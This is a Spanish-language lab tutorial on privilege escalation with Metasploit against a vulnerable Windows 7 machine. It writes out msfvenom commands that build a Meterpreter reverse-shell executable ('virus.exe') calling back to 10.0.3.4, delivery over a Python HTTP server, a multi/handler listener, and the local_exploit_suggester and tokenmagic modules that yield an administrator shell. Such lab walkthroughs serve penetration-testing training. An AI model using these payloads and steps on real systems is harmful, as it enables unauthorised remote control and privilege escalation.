 # Escalada de Privilegios Automática con Metasploit en Linux & Windows

Maquinas que vamos a utilizar **Kali Linux y Windows 7 Vulnerable** [https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing](https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing)

Metasploit cuenta con un módulo realmente interesante que nos permite realizar una enumeración automática de exploits que podemos utilizar en la máquina objetivo para poder escalar privilegios.

- Vamos a hacer una intrusión en la Maquina Windows par poder empezar la escalada de privilegios.
    - Creamos un Payload con msfvenom .
        
        ```bash
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.3.4 LPORT=4444 -f exe -o virus.exe
        ```
        
        ![image.png](./imagenes/image%2087.png)
        
        `windows/meterpreter/reverser_tcp` como vemos estoy cargando una sesión de meterpreter por que si queremos escalar privilegios con metasploit es muy importante recibir un meterpreter.
        
        Si al ejecutar el payload recibimos un error que que la arquitectura de bits no es compatible esto es debido a que la maquina victima tiene una arquitectura de 64 o de 32 bits y esto habría que diferenciarlo. Esto lo solucionamos volviendo a crear el payload en 64 bits pero indicándole la arquitectura de esta manera:
        
        ```bash
        msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.3.4 LPORT=4444 -f exe -o virus64.exe
        ```
        
- Montamos un servidor en Python desde el puerto 80
    
    ```bash
    python3 -m http.server 80
    ```
    
    ![image.png](./imagenes/image%2088.png)
    

- Vamos a cargar el virus.exe en la maquina victima a través del explorador web.
    
    ![image.png](./imagenes/image%2089.png)
    

- Abrimos el Metasploit para ponernos a la escucha con el **Multi/Handler**
    
    `use /multi/handler`
    
    ![image.png](./imagenes/image%2090.png)
    

`show options`

`set LHOST 10.0.3.4`

![image.png](./imagenes/image%2091.png)

- Ponemos el mismo Payload que hemos utilizado para el archivo virus. en mi caso
    
    **windows/x64/meterpreter/reverse_tcp**
    
    `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
    
    `run`
    
    ![image.png](./imagenes/image%2092.png)
    

- En la maquina Windows ejecutamos el archivo virus.exe o virus64.exe
    
    ![image.png](./imagenes/image%2093.png)
    

Y ya tenemos una sesión de meterpreter.

![image.png](./imagenes/image%2094.png)

---

Empezamos con la escalada de privilegios.

`background`

![image.png](./imagenes/image%2095.png)

<aside>
💡

`background` se usa para enviar una sesión activa de Meterpreter al segundo plano sin cerrarla. Esto nos permite seguir interactuando con la consola de Metasploit y ejecutar otros comandos mientras la sesión sigue activa en el sistema objetivo.

</aside>

- **Buscamos una opción que tiene Metasploit para automatizar la escalada de privilegios.**
    
    `search local_exploit_suggester`
    
    ![image.png](./imagenes/image%2096.png)
    
- Lo seleccionamos y miramos las opciones
    
    `use 0`
    
    ![image.png](./imagenes/image%2097.png)
    
    Nos pide el **SESSION** ID.
    
- Miramos el SESSION ID de la sesión que tengamos activa y que anteriormente hemos mandado a segundo plano con **background.**
    
    `sessions -l`
    
    ![image.png](./imagenes/image%2098.png)
    

- Le ponemos el numero de SESSION y y miramos que este todo bien
    
    `set SESSION 1`
    
    `show options`
    
    ![image.png](./imagenes/image%2099.png)
    

- Ejecutamos
    
    `run`
    
    ![image.png](./imagenes/image%20100.png)
    
    Nos recopila un montón de posibles exploit. Lo rojos debemos ignóralos y probar uno a uno los exploit de color verde.
    
    Para no eternizarnos adelanto que este exploit va a funcionar para esta maquina.
    
    `exploit/windows/local/tokenmagic`
    
    ![image.png](./imagenes/image%20101.png)
    

**La prueba de cada exploit se haría de la siguiente manera:**

`use exploit/windows/local/tokenmagic`

`show options`

![image.png](./imagenes/image%20102.png)

Rellenamos la información que nos pida y cambiamos LPORT por otro ya que el 4444 lo estamos utilizando en la sesión activa.

`set SESSION 1`

`set LHOST 10.0.3.4`

`set LPORT 5555`

![image.png](./imagenes/image%20103.png)

Ejecutamos y nos crea otra sesión de meterpreter como usuario administrador

`run`

![image.png](./imagenes/image%20104.png)

Lanzamos un Shell y miramos que usuario soy

`shell`

`whoami`

![image.png](./imagenes/image%20105.png)